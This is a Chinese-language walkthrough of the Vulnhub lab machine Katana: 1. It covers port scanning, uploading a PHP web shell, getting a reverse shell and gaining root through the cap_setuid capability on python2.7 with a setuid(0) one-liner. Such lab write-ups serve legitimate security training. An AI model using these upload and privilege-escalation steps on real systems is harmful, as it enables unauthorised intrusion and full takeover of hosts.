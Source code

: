 ```yaml
---

title: Vulnhub 482 KATANA 1
date: 2020-05-13
---
```


考点：文件上传,cap_setuid+ep

靶机链接：<https://www.vulnhub.com/entry/katana-1,482/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| KATANA: 1  | 10.0.2.21 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.21  
$ sudo nmap -v -p- $rip
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Issuer: commonName=katana/organizationName=webadmin/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-11T13:57:36
| Not valid after:  2022-05-11T13:57:36
| MD5:   0443 4a65 9ba1 0b75 ea8d d1b8 c855 e495
|_SHA-1: f89e f85e e6b3 6b10 4ebc 5354 80a0 0ae3 7e10 50cc
|_http-server-header: LiteSpeed
|_http-title: Katana X
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-favicon: Unknown favicon MD5: AF89068FFB9883F7D99BB25F75687AC7
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
```

### WEB测试

#### 端口80

```bash
$ dirsearch -u http://10.0.2.21/    
                                      
[01:58:10] 200 -  655B  - /index.html                                       
[01:58:17] 403 -  274B  - /server-status                                    
[01:58:17] 403 -  274B  - /server-status/ 
```



#### 端口7080

dirsearch 无收获

#### 端口8088

```bash
$ dirsearch -u http://10.0.2.21:8088   
[01:55:13] Starting: 
[01:55:25] 301 -    1KB - /cgi-bin  ->  http://10.0.2.21:8088/cgi-bin/      
[01:55:27] 301 -    1KB - /css  ->  http://10.0.2.21:8088/css/              
[01:55:27] 301 -    1KB - /docs  ->  http://10.0.2.21:8088/docs/            
[01:55:27] 200 -    5KB - /docs/                                            
[01:55:30] 301 -    1KB - /img  ->  http://10.0.2.21:8088/img/              
[01:55:30] 200 -  655B  - /index.html                                       
[01:55:36] 200 -   50KB - /phpinfo.php                                      
[01:55:38] 401 -    1KB - /protected/runtime/                               
[01:55:38] 401 -    1KB - /protected/data/                                  
[01:55:43] 200 -    6KB - /upload.html                                      
[01:55:43] 200 -    2KB - /upload.php
```

![1](https://static.iihack.com/vulnhub/482/1.jpg)

上传php一句话后，文件名改为`katana_2.php`

#### 端口8715

访问后有http认证，弱口令admin admin访问后无收获


### 漏洞发现

根据8088端口上传的文件名称`katana_2.php` 编写小脚本 

```bash
import os

ip = '10.0.2.21'
ports = ('80','7080','8088','8715')
file = 'katana_2.php'
for port in ports:
    url ='http://'+ ip +':'+port +'/'+ file
    print(url)
    os.system('curl -I %s ' % url)
```

![2](https://static.iihack.com/vulnhub/482/2.jpg)



## 获得权限

访问http://10.0.2.21:8715/katana_2.php返回200，使用antsword连接成功

![3](https://static.iihack.com/vulnhub/482/3.jpg)



上传r444.php 访问后本地获得反弹shell

![4](https://static.iihack.com/vulnhub/482/4.jpg)


## 提权

运行linpeas.sh发现

![5](https://static.iihack.com/vulnhub/482/5.jpg)



```bash
www-data@katana:/tmp$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
# whoami
```

获得root权限

![6](https://static.iihack.com/vulnhub/482/6.jpg)
